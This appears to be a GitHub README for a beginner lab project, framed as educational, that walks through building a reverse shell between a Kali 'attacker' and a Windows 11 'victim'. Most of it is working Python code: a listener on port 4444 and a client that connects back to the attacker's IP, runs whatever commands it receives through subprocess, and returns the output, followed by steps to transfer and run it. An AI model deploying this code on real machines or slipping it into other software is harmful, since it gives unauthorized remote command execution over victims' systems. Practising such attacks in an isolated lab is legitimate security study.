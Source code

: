 
# Python Reverse Shell – Beginner Cybersecurity Project

This project demonstrates a **basic reverse shell in Python** between a **Windows 11 target** and a **Kali Linux attacker** over a local network. It is intended for educational use **within a safe, virtual lab environment**.

## ⚠️ Warning

**Educational Use Only** – Do not use these techniques on systems or networks without explicit authorization.

---

## Step 0: Prepare the Lab

- Kali Linux = Attacker (IP: `192.168.44.128`)
- Windows 11 = Victim (IP: `192.168.44.130`)
- Ensure both are on the same virtual network.



---

## Step 1: Create the Listener (Kali)

![Step 0](\BeginnerProjects/)

Create a file named `listener.py` with the following content:

```python
import socket

listener = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
listener.bind(("0.0.0.0", 4444))
listener.listen(1)
print("[+] Listening on port 4444...")

connection, address = listener.accept()
print(f"[+] Connection from {address}")

while True:
    command = input("Shell> ")
    connection.send(command.encode())
    result = connection.recv(1024).decode()
    print(result)
```

![Step 1](\BeginnerProjects/)

---

## Step 2: Create the Reverse Shell (Windows 11)

Create a file named `reverse_shell.py` on Windows 11 with:

```python
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.44.128", 4444))

while True:
    command = s.recv(1024).decode()
    output = subprocess.getoutput(command)
    s.send(output.encode())
```

![Step 2](\BeginnerProjects/)

---

## Step 3: Transfer `reverse_shell.py` to Windows

Use any method (USB, shared folder, etc.). Open it with Python on Windows.


---

## Step 4: Run the Listener

On **Kali**, start the listener:

```bash
python3 listener.py
```


---

## Step 5: Run the Reverse Shell on Windows

Double-click `reverse_shell.py` (or run via terminal if Python is installed).



---

## Step 6: Shell Access

If successful, you'll see a shell prompt in Kali. You can now send commands to the Windows machine.

![Step 3](\BeginnerProjects/)

---

## What You Learned

- How reverse shells work
- Basic socket programming in Python
- How to simulate an attack in a virtual lab

---

## Tags

`#ReverseShell` `#Python` `#Cybersecurity` `#BeginnerProject` `#EthicalHacking` `#SocketProgramming`
